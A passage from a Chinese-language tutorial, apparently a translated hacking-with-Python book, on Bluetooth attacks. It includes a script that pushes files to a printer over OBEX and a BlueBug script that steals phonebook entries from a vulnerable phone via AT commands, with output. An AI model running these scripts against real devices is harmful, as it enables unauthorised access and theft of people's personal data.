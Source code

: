 当我们运行我们的脚本针对我们的打印机蓝牙，我们看到 RFCOMM 端口 2 提供 OBEX 对象推送功能。对象交换服务(OBEX)让我们有类似与 FTP 匿名登陆的的能力，我们可以匿名的上传和下载文件从系统里面，这可能是打印机上值得进一步研究的东西。

```
attacker# python sdpScan.py
[+] Found Serial Port on RFCOMM:1
[+] Found OBEX Object Push on RFCOMM:2
[+] Found Basic Imaging on RFCOMM:3
[+] Found Basic Printing on RFCOMM:4
[+] Found Hardcopy Cable Replacement on L2CAP:8193 
```

## 用 Python ObexFTP 接管打印机

让我们继续对打印机进行攻击。因为它在 RFCOMM 的端口 2 上提供了 OBEX 服务，让我们尝试推送一个照片上去。我们使用`obexftp`连接打印机，接着我们从攻击者的主机上发送一个图片给它。当文件传输成功，我们的打印机开始为我们打印图像。这太令人兴奋了！但不一定是危险的，所以我们将继续在下一节中使用这种方法对提供蓝牙的手机实施更致命的攻击。

```
import obexftp
try:
    btPrinter = obexftp.client(obexftp.BLUETOOTH)
    btPrinter.connect('00:16:38:DE:AD:11', 2)
    btPrinter.put_file('/tmp/ninja.jpg')
    print('[+] Printed Ninja Image.')
except:
print('[-] Failed to print Ninja Image.') 
```

## 用 Python BlueBug 手机

在本节中，我们将重现一个最近的手机蓝牙攻击向量。最初被称为 BlueBug 攻击，该攻击使用未认证的和不安全的连接手机偷取手机的详细信息或者直接向手机发送指令。这个攻击使用 RFCOMM 信道发送 AT 命令作为远程控制设备的工具。者允许攻击者读写短信，收集个人信息或者拨打号码。

例如，攻击者可以控制一个诺基亚 6310i 通过 RFCOMM 的 17 信道。在以前这这手机的固件版本，RFCOMM 信道 17 不需要身份验证便可连接，攻击者可以简单的扫描 RFCOMM 打开的信道发现 17 信道，连接并且发送 AT 命令下载电话号。 让我们用 Python 来重现这次攻击。再一次，我们需要导入 Python 的`Bluez`API 模块。确认我们的目标地址和脆弱的 RFCOMM 端口之后，我们创建一个到开放，未经验证，未加密的连接。使用这个新创建的连接，我们发送一个命令，例如`"AT+CPBR=1"`来下载通讯录的第一个号码，重复次命令偷取全部的通讯录。

```
import bluetooth

tgtPhone = 'AA:BB:CC:DD:EE:FF'
port = 17
phoneSock = bluetooth.BluetoothSocket(bluetooth.RFCOMM)
phoneSock.connect((tgtPhone, port))
for contact in range(1, 5):
    atCmd = 'AT+CPBR=' + str(contact) + '\n'
    phoneSock.send(atCmd)
    result = phoneSock.recv(1024)
    print '[+] ' + str(contact) + ': ' + result
phoneSock.close() 
```

针对脆弱的手机运行我们的脚本，我们可以从受害者手机上下载五个联系人的电话号码。不到五十行的代码，我们可以通过蓝牙远程窃取通讯录电话号码。棒极了！

```
attacker# python bluebug.py
[+] 1: +CPBR: 1,"555-1234",,"Joe Senz"
[+] 2: +CPBR: 2,"555-9999",,"Jason Brown"
[+] 3: +CPBR: 3,"555-7337",,"Glen Godwin"
[+] 4: +CPBR: 4,"555-1111",,"Semion Mogilevich"
[+] 5: +CPBR: 5,"555-8080",,"Robert Fisher 
```

## 本章总结

恭喜你！在这一章我们已经编写了很多工具，我们可以用它们来设计无线网络和蓝牙设备。我们从通过无线网络截获私人信息开始。接下来，我们研究如何分析 802.11 无线流量，为了发现首选网络和隐藏的接入点。然后，我们紧急迫降了一个无人机并建立了一个工具识别无线网络黑客工具。对于蓝牙协议，我们我们建立了一个工具来查找蓝牙设备，扫描并渗透攻击了打印机和手机。 希望你喜欢这一章。我喜欢编写这些。下一章，我们将讨论在开源的网络社交媒体上使用 Python 进行侦查。